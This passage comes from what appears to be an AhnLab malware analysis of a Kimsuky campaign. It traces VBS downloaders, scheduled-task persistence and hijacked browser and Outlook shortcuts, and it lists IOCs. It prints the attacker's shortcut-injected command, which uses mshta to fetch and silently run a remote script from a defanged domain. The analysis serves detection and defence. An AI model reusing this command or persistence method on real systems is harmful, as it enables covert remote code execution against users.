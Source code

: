 When an Ahnlab (v3) process is identified

This procedure is similar to when an Avast process is identified. An additional script file is downloaded from hxxps://joongang[.]site/pprb/sec/ca.php?na=sh_vb.gif and saved in the startup programs folder under the name onenote.vbs.

Figure 4. Script found in hxxps://joongang[.]site/pprb/sec/ca.php?na=sh_vb.gif
The aforementioned script file performs the same functionality as the previously described onenote.vbs (?na=sh_ava.gif). However, the downloaded onenote.vbs file from hxxps://joongang[.]site/pprb/sec/ca.php?na=sh_vb.gif contains the [command set by the threat actor] that is included in the arguments used upon changing the properties of shortcut files.
& echo Set ws = CreateObject(""WScript.Shell""):
a=ws.run(""mshta.exe hxxps://joongang[.]site/pprb/sec/t1.hta"",0,false) > ""%appdata%\1.vbs"" 
& start wscript.exe /b ""%appdata%\1.vbs

Figure 5. Changed LNK properties
Therefore, every time a user executes the shortcut file for a browser or Outlook, the script located at hxxps://joongang[.]site/pprb/sec/t1.hta is saved and executed as %appdata%\1.vbs. At the time of analysis, the URL contained the following command to close the window:
On Error Resume Next
window.close()
Afterward, aside from when Kaspersky (avpui.exe, avp.exe) and Avast (avastui.exe, avgui.exe) processes are identified, additional scripts are downloaded from hxxps://joongang[.]site/pprb/sec/ca.php?na=vbs.gif and saved as asdfg.vbs in the %appdata% folder.
The downloaded asdfg.vbs file is registered in the task scheduler as CleanupTemporaryState and scheduled to run every 41 minutes.Like the video.vbs file, the asdfg.vbs file downloads and executes additional scripts from hxxps://joongang[.]site/pprb/sec/d.php?na=battmp.
At the time of analysis, behaviors such as downloading executable files were not present. However, due to the nature of downloading and executing various scripts, there is a possibility of additional unidentified malicious activities being carried out based on the commands present in the scripts. Furthermore, the threat actor replaced the default document template, Normal.dotm, and modified browser and email-related shortcut files.  Therefore, since there is a possibility of malicious scripts being installed upon the execution of shortcut files (*.lnk) of Word documents, Internet browsers like Chrome, and Outlook, extra caution is advised.
[File Detection]Downloader/BAT.Generic.S2300 (2023.06.26.03)Trojan/VBS.Agent.SC190255 (2023.06.30.00)Trojan/VBS.Agent.SC190256 (2023.06.30.00)Downloader/VBS.Agent.SC190254 (2023.06.30.00)
[Behavior Detection]Execution/MDP.Curl.M4675Execution/MDP.Curl.M11183Execution/EDR.Curl.M11182
[IOC]
MD57d79901b01075e29d8505e72d225ff5200119ed01689e76cb7f33646693ecd6a8536d838dcdd026c57187ec2c3aec0f6a7ac7d100184078c2aa5645552794c19
URLhxxp://joongang.site/pprb/sec/hxxp://joongang.site/doc/hxxp://joongang.site/docx/hxxp://namsouth.com/gopprb/OpOpO/hxxp://staradvertiser.store/signal/
[References]https://www.sentinelone.com/labs/kimsuky-evolves-reconnaissance-capabilities-in-new-global-campaign/
Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.


Categories:Malware Information 
Tagged as:BAT,Kimsuky 




Deep Web & Dark Web Threat Trend Report – May 2023 
